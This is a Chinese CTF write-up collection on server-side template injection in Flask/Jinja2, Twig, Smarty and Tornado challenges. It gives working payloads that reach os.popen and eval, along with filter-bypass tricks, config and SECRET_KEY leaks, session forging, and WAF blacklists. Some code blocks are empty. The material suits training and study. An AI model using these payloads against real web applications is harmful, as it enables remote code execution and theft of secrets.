




## SSTI：

## 目录

### 简单

-   ~~[CSCCTF 2019 Qual]FlaskLight~~

### 签到

-   ~~[BJDCTF2020]Cookie is so stable twig模板注入~~
-   ~~[WesternCTF2018]shrine 想方设法获取config~~
-   ~~[CISCN2019 华东南赛区]Web11 smarty模板注入~~
-   ~~[BJDCTF2020]The mystery of ip~~
-   ~~[GYCTF2020]FlaskApp debug模式一定条件下可以窃取出来pin码命令执行，但是题目过滤的不够严格导致可以直接打，比签到难一点~~
-   ~~[pasecactf_2019]flask_ssti 编码绕过~~
-   ~~[GWCTF 2019]你的名字~~
-   ~~[CISCN2019 总决赛 Day1 Web3]Flask Message Board~~

### 中等

-   ~~[护网杯 2018]easy_tornado 因为框架比较冷门，如果不看WP的话需要自己手动翻手册，我觉得算中上偏难的题目。~~
-   ~~[CISCN2019 华东南赛区]Double Secret 国赛半决赛因为大家互相出题所以都互相恶心，这题整个MD4，线下环境怎么打？~~

### 困难

-   [QWB2021 Quals]托纳多

### 脑洞

-   ~~[RootersCTF2019]I_<3_Flask 用name注入。？怎么想到的~~

## Writeup

### [CSCCTF 2019 Qual]FlaskLight


发现提示


测试成功


列出所有子类


放入find.py跑一下敏感函数


构造payload

```python
{{[].__class__.__bases__[0].__subclasses__()[127].__init__.__globals__['os'].popen(cat /xxx/flag)}}
```

出现未知错误


这里应该是关键字过滤

那就绕它！

```python
{{[].__class__.__bases__[0].__subclasses__()[71].__init__['__glo'+'bals__']['os'].popen('whoami').read()}}
```


同理可构造payload

```python
{{().__class__.__bases__[0].__subclasses__()[59].__init__['__glo'+'bals__']['__builtins__']['__import__']('os').popen('whoami').read()}}
```

读取flag

```python
http://91ff8d9a-4ad0-491a-8d5d-c55157088e4f.node4.buuoj.cn:81/?search={{[].__class__.__bases__[0].__subclasses__()[71].__init__['__glo'+'bals__']['os'].popen('cat flasklight/coomme_geeeett_youur_flek ').read()}}
```


### [BJDCTF2020]Cookie is so stable


存在模板注入


判断为twig注入

payload

```php
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("whoami")}}
```

写入输入框没有效果

hint页面有提示


抓包分析


发现cookie中有user接受我们输入的值，猜测这个模板注入参数在cookie中


成功获得flag

### [WesternCTF2018]shrine 想方设法获取config

进去源码如下

```python
import flask
import os

app = flask.Flask(__name__)

app.config['FLAG'] = os.environ.pop('FLAG')


@app.route('/')
def index():
    return open(__file__).read()


@app.route('/shrine/<path:shrine>')
def shrine(shrine):

    def safe_jinja(s):
        s = s.replace('(', '').replace(')', '')
        blacklist = ['config', 'self']
        return ''.join(['{}'.format(c) for c in blacklist]) + s

    return flask.render_template_string(safe_jinja(shrine))


if __name__ == '__main__':
    app.run(debug=True)

```

第一个路由是显示源码的，第二个路由可以传入参数，而且有黑名单过滤，猜测要读取配置文件


测试一下存在模板注入

要利用模板注入来读取配置，config和self被过滤，但我们仍然可以利用url_for()和get_flashed_messages()函数来读取config


发现


current_app意思应该是当前app，那我们就当前app下的config


flag出来了

最终payload

```python
http://139fe4b8-9ae9-452c-9af3-142eef361b68.node4.buuoj.cn:81/shrine/{{url_for.__globals__['current_app'].config['FLAG'])}}
```

同理

```python
http://139fe4b8-9ae9-452c-9af3-142eef361b68.node4.buuoj.cn:81/shrine/{{get_flashed_messages.__globals__['current_app'].config['FLAG']}}
```

### [CISCN2019 华东南赛区]Web11 smarty模板注入


敏感点X-Forwarded-For


会随X-Forwarded-For的变化而变化


存在模板注入

```
X-Forwarded-For: {$smarty.version}
```


判断该模板为smart，版本号为3.1.30

#### `{if}`标签

官方文档中的描述：

- Smarty的`{if}`条件判断和PHP的if非常相似，只是增加了一些特性
- 每个`{if}`必须有一个配对的`{/if}`，也可以使用`{else}` 和 `{elseif}`
- 全部的PHP条件表达式和函数都可以在if内使用，如`||`, `or`, `&&`, `and,` `is_array(),` 等等，如：`{if is_array($array)}{/if}`

payload

```python
{if phpinfo()}{/if}
```


### [BJDCTF2020]The mystery of ip 


和上道题很相似,测试一下


模板注入有了


还是smart模板

和上道题一模一样，直接拿下



### [GYCTF2020]FlaskApp


hint:失败的意思就是，要让程序运行报错,报错后会暴露源码。

base64decode在不会解析的时候就会报错。


拿到源码

```python
@app.route('/decode',methods=['POST','GET'])

def decode():

    if request.values.get('text') :

        text = request.values.get("text")

        text_decode = base64.b64decode(text.encode())

        tmp = "结果 ： {0}".format(text_decode.decode())

        if waf(tmp) :

            flash("no no no !!")

            return redirect(url_for('decode'))

        res =  render_template_string(tmp)

        flash( res )
```

应该存在模板注入，测试一下


模板注入有了

上payload

```python
{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('whoami').read()") }}
```


被这里的waf过滤了

读取下app.py

```python
{{ c.__init__.__globals__['__builtins__'].open('app.py', 'r').read() }}
```


```python
from flask import Flask,render_template_string
from flask import render_template,request,flash,redirect,url_for
from flask_wtf import FlaskForm
from wtforms import StringField, SubmitField
from wtforms.validators import DataRequired
from flask_bootstrap import Bootstrap
import base64
 
app = Flask(__name__)
app.config['SECRET_KEY'] = 's_e_c_r_e_t_k_e_y'
bootstrap = Bootstrap(app)
 
class NameForm(FlaskForm):
    text = StringField('BASE64加密',validators= [DataRequired()])
    submit = SubmitField('提交')
class NameForm1(FlaskForm):
    text = StringField('BASE64解密',validators= [DataRequired()])
    submit = SubmitField('提交')
 
def waf(str):
    black_list = ["flag","os","system","popen","import","eval","chr","request",
                  "subprocess","commands","socket","hex","base64","*","?"]
    for x in black_list :
        if x in str.lower() :
            return 1
 
 
@app.route('/hint',methods=['GET'])
def hint():
    txt = "失败乃成功之母！！"
    return render_template("hint.html",txt = txt)
 
 
@app.route('/',methods=['POST','GET'])
def encode():
    if request.values.get('text') :
        text = request.values.get("text")
        text_decode = base64.b64encode(text.encode())
        tmp = "结果  :{0}".format(str(text_decode.decode()))
        res =  render_template_string(tmp)
        flash(tmp)
        return redirect(url_for('encode'))
 
    else :
        text = ""
        form = NameForm(text)
        return render_template("index.html",form = form ,method = "加密" ,img = "flask.png")
 
@app.route('/decode',methods=['POST','GET'])
def decode():
    if request.values.get('text') :
        text = request.values.get("text")
        text_decode = base64.b64decode(text.encode())
        tmp = "结果 ： {0}".format(text_decode.decode())
        if waf(tmp) :
            flash("no no no !!")
            return redirect(url_for('decode'))
        res =  render_template_string(tmp)
        flash( res )
        return redirect(url_for('decode'))
 
    else :
        text = ""
        form = NameForm1(text)
        return render_template("index.html",form = form, method = "解密" , img = "flask1.png")
 
 
@app.route('/<name>',methods=['GET'])
def not_found(name):
    return render_template("404.html",name = name)
 
if __name__ == '__main__':
    app.run(host="0.0.0.0", port=5000, debug=True)
```

```python
 def waf(str): black_list = ["flag", "os",
        "system", "popen", "import", "eval", "chr", "request",
        "subprocess", "commands", "socket", "hex", "base64", "*", "?"]
```

我们发现waf过滤了这些关键词，我们要进行绕过

```python
{{ c.__init__.__globals__['__builtins__']['__imp'+'ort__']('o'+'s').listdir('/')}}

```


读取下flag

```python
{{ c.__init__.__globals__['__builtins__'].open('/this_is_the_f'+'lag.txt', 'r').read() }}
```


读取使用切片省去了拼接flag的步骤

```python
{{ c.__init__.__globals__[‘__builtins__‘].open(‘txt.galf_eht_si_siht/‘[::-1],‘r‘).read() }}
```

### [pasecactf_2019]flask_ssti 编码绕过


存在模板注入


列举子类被禁止

经过测试，发现是 __   .    '  被过滤


转16进制绕过


exp 

```python
{{""["\x5f\x5fclass\x5f\x5f"]["\x5f\x5fbases\x5f\x5f"][0]["\x5f\x5fsubclasses\x5f\x5f"]()[127]["\x5f\x5finit\x5f\x5f"]["\x5f\x5fglobals\x5f\x5f"]["popen"]("whoami")["read"]()}}
```


解法一:

读取app.py源码,发现:

```python
def encode(line, key, key2): return ''.join(chr(x ^ ord(line[x]) ^ ord(key[::-1][x]) ^ ord(key2[x])) for x in range(len(line)))
app.config['flag'] = encode('', 'GQIS5EmzfZA1Ci8NslaoMxPXqrvFB7hYOkbg9y20W3', 'xwdFqMck1vA0pl7B8WO3DrGLma4sZ2Y6ouCPEHSQVT') 
```

读取config，flag值为

```
'-M7\x10w\x12d9cT#`}\x0e\x1e\x0fiS(D\x1e\x13X\x17{n\x03g\x02\t\x10[#\x07/(Ak\x15^NG'}> 
```

解密脚本:

```python
key='GQIS5EmzfZA1Ci8NslaoMxPXqrvFB7hYOkbg9y20W3'
key2='xwdFqMck1vA0pl7B8WO3DrGLma4sZ2Y6ouCPEHSQVT'
flag_encoded='这里放加密后的flag'
flag=''
for x in range(len(flag_encoded)):
    for i in range(33,127):
        if flag_encoded[x]==chr(x ^ i ^ ord(key[::-1][x]) ^ ord(key2[x])):
            flag+=chr(i)
            print(flag)
```


解法二:

`/proc/self`表示当前进程目录

获取当前进程打开的文件内容:cat /proc/self/fd/{id}

**注意：**在真正做题的时候，我们是不能通过命令的方式执行通过cat命令读取cmdline的。因为如果 cat读取/proc/self/cmdline/的话，得到的是 cat进程的信息。所以我们要通过题目的当前进程使用读取文件（比如，文件包含漏洞，，SSTI，，file:\\\本地读取，，../../../目录穿越，，SSRF）的方式读取/proc/self/cmdline

```
{{()["\x5F\x5Fclass\x5F\x5F"]["\x5F\x5Fbases\x5F\x5F"][0]["\x5F\x5Fsubclasses\x5F\x5F"]()[91]["get\x5Fdata"](0, "/proc/self/fd/3")}}
```

### [GWCTF 2019]你的名字 


测了一下，给了个php的报错

这里其实给了一个编出来的PHP假报错（害人）

`{{...}}`装载一个变量，模板渲染的时候，会使用传进来的同名参数这个变量代表的值替换掉。
``：装载一个控制语句。
`{# ... #}`：装载一个注释，模板渲染的时候会忽视这中间的值。

双大括号这种表示方式就是可以直接回显在页面上的，而这种方式被过滤了，那我们就使用``语句

``可以配合`if()`或者`print()`函数进行输出


成功回显

lipsum是一个方法

该方法常用payload

```python
{{lipsum.__globals__['os'].popen('whoami').read()}}
{{lipsum.__globals__['__builtins__']['eval']("__import__('os').popen('whoami').read()")}}
{{lipsum.__globals__.__builtins__.__import__('os').popen('whoami').read()}}
```

```python

```


```python
name=
```


第二种方法

源码如下:

```python
blacklist = ['import', 'getattr', 'os', 'class', 'subclasses', 'mro', 'request', 'args', 'eval', 'if', 'for',

                 ' subprocess', 'file', 'open', 'popen', 'builtins', 'compile', 'execfile', 'from_pyfile', 'local',

                 'self', 'item', 'getitem', 'getattribute', 'func_globals', 'config'];

for no in blacklist:

    while True:

        if no in s:

            s = s.replace(no, '')

        else:

            break

return s
```

先从黑名单中取出一个字符串经过循环过滤再进行下一个字符串的过滤，因此这里用双写是无法绕过的，但是这种过滤的逻辑是错误的，如下这种构造是无法被过滤的：

```python

```

因为`config`字符串是在黑名单的最后一个，所以黑名单中前面字符串的过滤都已经结束了，再进行`config`的过滤，但是过滤完`config`之后才会出现黑名单中前面的字符串，因此可以绕过。

第三种方法，不用print，使用curl外带

```python
1
```

vps监听2333端口即可

### [CISCN2019 总决赛 Day1 Web3]Flask Message Board

Fuzz了一波，发现这里无论输入什么都会提示被拒绝，但是`Title`、`Author`和`Content`里面输入`1+1`就不会，并且回显的是`Author`的内容。

那么我们尝试一下，让title和content里的内容为1+1，Author输出我们需要的值


我们发现了一个好玩的东西

```html
'SECRET_KEY': 'ill|111|IIlI1lI|I1i|IiliIIli||i1|l||i1il'
```

有了这个我们可以来伪造session

我们抓下包看看


对seesion解密


发现 "admin":false  猜测要伪造admin

使用flask-unsign


成功访问/admin


看一下


源码是随机显示一部分，但是好在位置固定，通过脚本复原即可：

```python
import requests
url = 'http://8567734a-8c12-4f70-bfee-6f10e978f956.node3.buuoj.cn/admin/source_thanos'
r = requests.get(url)
source = r.text
for j in range(10):
    r = requests.get(url)
    for i in range(len(source)):
        if source[i].isspace():
            source = source[:i] + r.text[i] + source[i+1:]
print(source)
```

是和tensorflow有关

不了解tensorflow，看官方wp：

通过tensorflow运行下面代码，


| ` 1 2 3 4 5 6 7 8 9 10 11 12 ` | `import tensorflow as tf # Tensorboard可视化 def init(model_path):    new_sess = tf.Session()    meta_file = model_path + ".meta"    model = model_path    saver = tf.train.import_meta_graph(meta_file)    saver.restore(new_sess, model)    return new_sess sess = init('detection_model/detection') writer = tf.summary.FileWriter("./log", sess.graph) # 然后在命令行执行tensorboard --logdir ./log ` |
| ------------------------------ | ------------------------------------------------------------ |
|                                |                                                              |

在对应端口查看图结构，发现当输入的字符串字符总和为1024时会触发读取`/flag`的后门，此时转向处理输入的函数：

复制

| ` 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 ` | `def predict(sess, x):    '''    :param x: input number x        sess: tensorflow session    :return: b'You are: *'    '''    y = sess.graph.get_tensor_by_name("y:0")    y_out = sess.run(y, {"x:0": x})    return y_out def check_bot(input_str):    r = predict(sess, sum(map(ord, input_str)))    return r if isinstance(r, str) else r.decode() # check_result = check_bot(content) # check_bot函数只处理了输入框接收的内容，因此只有输入框可以触发读取`/flag`的后门。 ` |
| ------------------------------------------ | ------------------------------------------------------------ |
|                                            |                                                              |

这里**将输入的字符串转化为ASCII码然后求和作为x的值**，需要将x的值改为1024，于是构造一个ASCII码值和为1024的字符串赋值x：

> aaaaaabxCZC


### [护网杯 2018]easy_tornado


当文件名和filehash不匹配，会报错

```html
http://f9bce56c-7ea3-4a3e-8c9e-48df6af87351.node4.buuoj.cn:81/error?msg=Error
```

猜测msg可控，测试tornado模板注入


来了个orz？？

还是去搜资料吧

在tornado模板中，存在一些可以访问的快速对象，比如 {{escape(handler.settings["cookie"])}}，这个其实就是handler.settings对象，里面存储着一些环境变量，具体分析请参照《[python SSTI tornado render模板注入](https://www.cnblogs.com/cimuhuashuimu/p/11544455.html)》。


直接爆出来了cookie_secret


可以推算出filehash的值


### [CISCN2019 华东南赛区]Double Secret 



里面只有这个，盲猜目录  xxx/secret


猜测存在参数secret

随便输入


报错，寻找可用信息


发现会对输入的值进行rc4解密

放一个RC4加密脚本

```python
import base64
from urllib.parse import quote
def rc4_main(key = "init_key", message = "init_message"):
    # print("RC4加密主函数")
    s_box = rc4_init_sbox(key)
    crypt = str(rc4_excrypt(message, s_box))
    return  crypt
def rc4_init_sbox(key):
    s_box = list(range(256))  # 我这里没管秘钥小于256的情况，小于256不断重复填充即可
    # print("原来的 s 盒：%s" % s_box)
    j = 0
    for i in range(256):
        j = (j + s_box[i] + ord(key[i % len(key)])) % 256
        s_box[i], s_box[j] = s_box[j], s_box[i]
    # print("混乱后的 s 盒：%s"% s_box)
    return s_box
def rc4_excrypt(plain, box):
    # print("调用加密程序成功。")
    res = []
    i = j = 0
    for s in plain:
        i = (i + 1) % 256
        j = (j + box[i]) % 256
        box[i], box[j] = box[j], box[i]
        t = (box[i] + box[j]) % 256
        k = box[t]
        res.append(chr(ord(s) ^ k))
    # print("res用于加密字符串，加密后是：%res" %res)
    cipher = "".join(res)
    print("加密后的字符串是：%s" %quote(cipher))
    #print("加密后的输出(经过编码):")
    #print(str(base64.b64encode(cipher.encode('utf-8')), 'utf-8'))
    return (str(base64.b64encode(cipher.encode('utf-8')), 'utf-8'))
rc4_main("HereIsTreasure","{{''.__class__.__mro__.__getitem__(2).__subclasses__().pop(40)('/flag.txt').read()}}")
```

可得payload：

```html
.%14%1E%12%C3%A484mg%C2%9C%C3%8B%00%C2%81%C2%8D%C2%B8%C2%97%0B%C2%9EF%3B%C2%88m%C2%AEM5%C2%96%3D%C2%9D%5B%C3%987%C3%AA%12%C2%B4%05%C2%84A%C2%BF%17%C3%9Bh%C3%8F%C2%8F%C3%A1a%0F%C2%AE%09%C2%A0%C2%AEyS%2A%C2%A2d%7C%C2%98/%00%C2%90%C3%A9%03Y%C2%B2%C3%9B%1F%C2%B6H%3D%0A%23%C3%B1%5B%C2%9Cp%C2%AEn%C2%96i%5Dv%7FX%C2%92
```


### [RootersCTF2019]I_<3_Flask 用name注入

#### 发现漏洞

这道题是模板注入。


首先查看源代码，并没有什么用。


dirsearch爆破一下，什么也没有。


本题是flask类题目，ctf常考点不过就是模板注入，所以我们需要寻找可注入参数，本地并没有给出，需要我们自己去爆破。

我们这里采用arjun工具进行爆破。工具链接：https://github.com/s0md3v/Arjun

最终可爆破出来参数name。


测试了一下的确存在模板注入。

接下来就是对漏洞的利用。

#### 漏洞利用

##### 工具tplmap


成功，发现为Jinja2模板，在ctf题目中经常考察

直接--os-shell拿下shell，读取flag


#### 手工利用

只会工具当然不行，有时候工具无法成功，就需要自己手动测试，所以如何手撸也是需要掌握的。

具体可参考这篇文章，东西很多且杂，写给自己看的大佬别喷我。

https://sakurahack-y.github.io/2021/10/15/ssti-flak%E6%A1%86%E6%9E%B6/

首先给几个比较通用的payload

```
http://b8ef4c5f-f8bd-40de-acd4-c17dec6fb0d6.node4.buuoj.cn:81/?name={{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('whoami').read()") }}
```


```
http://b8ef4c5f-f8bd-40de-acd4-c17dec6fb0d6.node4.buuoj.cn:81/?name=

  
  
    
      {{ b['eval']('__import__("os").popen("whoami").read()') }}
    
  
  


```


然后我们再讲一讲自己如何撸出来一个payload，做法就是寻找可利用的类。

1、有popen()的类

```
os._wrap_close
payload:
{{"".__class__.__bases__[0].__subclasses__()[128].__init__.__globals__['popen']('whoami').read()}}
```

2、有os模块的

socket._socketobject（一般在71）、site._Printer等模块

```
payload:
{{[].__class__.__bases__[0].__subclasses__()[71].__init__.__globals__['os'].popen(cat /xxx/flag)}}
```

3、有builtins的类

__ builtins __代码执行（最常用的方法）

warnings.catch_warnings含有,常用的还有email.header._ValueFormatter

__ builtins __  是一个包含了大量内置函数的一个模块，我们平时用python的时候之所以可以直接使用一些函数比如abs，max，就是因为__ builtins  __ 这类模块在Python启动时为我们导入了，可以使用dir(__ builtins __ )来查看调用方法的列表，然后可以发现__  builtins __ 下有eval，__ import __等的函数，因此可以利用此来执行命令。

好了，接下来进行实践。

我们把所有子类列出来


好家伙出来了很多啊，我们只需要找到我们需要的就好，我们用python脚本跑一下

```python
import json

a = """
<class 'type'>,...,<class 'subprocess.Popen'>
"""

num = 0
allList = []

result = ""
for i in a:
    if i == ">":
        result += i
        allList.append(result)
        result = ""
    elif i == "\n" or i == ",":
        continue
    else:
        result += i
        
for k,v in enumerate(allList):
    if "os._wrap_close" in v:
        print(str(k)+"--->"+v)
```

我们先来找下os._wrap_close


已经出来了在132位，那么我们就可以构造一个payload

```
{{"".__class__.__bases__[0].__subclasses__()[132].__init__.__globals__['popen']('whoami').read()}}
```

我们来测试一下是否可以



成功列出来了文件。

直接读取flag



同理，可以利用的类还有很多啊，


就像这个类也在里面包含着，我们同样可以利用它来获取flag。

方法有很多，理解原理并掌握其中几种方法即可。
